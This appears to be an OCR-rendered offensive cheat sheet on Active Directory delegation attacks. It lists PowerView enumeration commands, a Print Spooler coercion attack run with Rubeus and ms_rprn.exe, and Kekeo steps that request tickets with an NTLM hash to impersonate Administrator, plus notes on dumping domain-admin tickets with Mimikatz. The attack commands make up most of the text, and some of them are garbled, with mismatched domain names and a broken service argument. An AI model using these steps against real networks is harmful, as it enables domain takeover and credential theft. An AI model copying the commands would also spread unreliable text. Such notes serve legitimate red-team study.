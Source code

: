   ```powershell
**Unconstrained Delegation**

  - Identify Computer Objects where Unconstrained Delegation is allowed

    ```powershell
    Get-NetComputer -Unconstrained | select cn

      Note: 
      
      1) Use bloodhound to identify the attack path to compromise the Computer where unconstrained delegation is allowed. Also, you can find out the user account who has local admmin rights on the given system

      2) Wait for DA user to login, and dump the cached TGT ticket for high privileged user using Mimikatz

      3) Alternately, if there is Print Sppoler service installed on DC, it can be expoited to capture NTLM hash of DC machine account. It can be further used to craft Silver ticket for given service

**Print Spooler attack**

  - Checked Print Service is running on the DC

    ```powershell
    dir \\dc.organicsecurity.local\pipe\spoolss

  - Execute the Rubeus.exe for continues monitoring of TGT/TGS tickets

    ```powershell
    .\Rubeus.exe monitor /interval:2 /nowrap

  - Execute MSRPRN.exe to trigger printspooler server iinto authenticating with our conpromised server having unconstrained delegation enabled to capture DC machine account hash

    ```powershell
    .\ms_rprn.exe \\dc.organgesecurity.local \\appserver.organicsecurity.local

**Constrained Delegation**

  - Identify the user and computer account having constrained delegation enabled

    ```powershell
    Get-NetUser -TrustedToAuth | select cn, samaccountname, msds-allowedtodelegateto
    Get-NetComputer -TrustedToAuth | select cn, msds-allowedtodelegateto

**[I] Constrained Delegation - User/Service Account**

  - Method 1: User Account exploitation using Kekeo

    - Request a TGT for for vulnerable account using NTLM hash

      ```powershell
      .\Kekeo.exe tgt::ask user:websvc /domain:organicsecurity.local /rc4:cc096515667862789729156f
    
    - Use the TGT to fetch delegable TGS for second service 

      ```powershell
      .\kekeo.exe tgs::s4u /tgt:TGT_websvc@organicsecurity.local_krbtgt~organicsecurity.local@organicsecurity.local.kirbi /user:Administrator@organicsecurity.local /service:cifs dcorp mssql.organicsecurity.local
    
    - Inject the ticket into memory using Mimikatz

  ```
